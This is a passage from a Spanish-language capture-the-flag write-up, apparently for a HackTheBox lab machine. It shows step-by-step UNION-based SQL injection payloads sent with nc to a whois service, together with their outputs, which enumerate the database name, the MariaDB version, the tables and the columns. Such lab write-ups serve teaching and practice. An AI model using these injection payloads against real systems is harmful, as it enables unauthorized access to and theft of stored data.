 Ya vemos aqui que hay dos columnas. Podemos aplicar un **UNION SELECT** para ver las etiquetitas a traves de las cuales
podemos injectar los datos con queries.

```bash
nc 10.10.10.155 43
') union select 1,2#
#Output
% This query returned 1 object
1
```

Vemos aqui que injectaremos por la data 1.

1. Qual es la base de datos

    ```bash
    nc 10.10.10.155 43
    ') union select database(),2#
    #Output
    % This query returned 1 object
    whois
    ```

1. Qual es la version

    ```bash
    nc 10.10.10.155 43
    ') union select version(),2#
    #Output
    % This query returned 1 object
    10.1.37-MariaDB-0
    ```

1. Qual son las tablas de la base de datos whois

    ```bash
    nc 10.10.10.155 43
    ') union select table_name,2 from information_schema.tables where table_schema = "whois"#
    #Output
    % This query returned 1 object
    customers
    ```

1. Qual son las columnas de la tabla customers

    ```bash
    nc 10.10.10.155 43
    ') union select column_name,2 from information_schema.columns where table_schema = "whois" and table_name = "customers"#
    #Output
    % This query returned 3 object
    iddomaindata
    ```

    Aqui podria ser turbio y puede ser mejor de enumerar columnas por columnas
